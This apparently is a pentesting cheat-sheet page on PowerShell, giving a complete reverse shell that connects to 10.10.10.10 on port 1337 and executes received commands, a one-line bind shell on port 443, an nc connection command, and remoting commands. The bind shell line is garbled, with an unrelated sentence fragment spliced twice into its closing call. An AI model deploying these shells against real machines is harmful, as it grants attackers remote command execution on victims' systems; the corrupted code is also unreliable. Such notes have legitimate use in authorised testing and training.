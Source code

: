 ## Powershell
For more customisation [[Basic_Powershell]] or [[Useful_Powershell]].
### Powershell Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner

### Powershell Bind Shell
Remember to change local addresss accordingly, some localhosts won't be `0.0.0.0`
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.ation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer toStop()
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner.
Then `nc -nv $IP $PORT` in...

### Remoting with Powershell
Generally you must be administrator to `Enable-PSRemoting`, and require configuration of TrustedHosts:  
```powershell
Get-ChildItem -path WSMan:\Localhost # Find the WSman:\
Set-Item wsman:\local\client\trustedhosts <remote-address>
```
Connecting 
```powershell
Invoke-Command -ComputerName <remote-address> -Scriptblock {  } - Credential <username> # to attempt to connect and execute a scriptblock
Enter-PSSession -ComputerName <remote-address> -Credential <username> # Establishes a remote shell
```
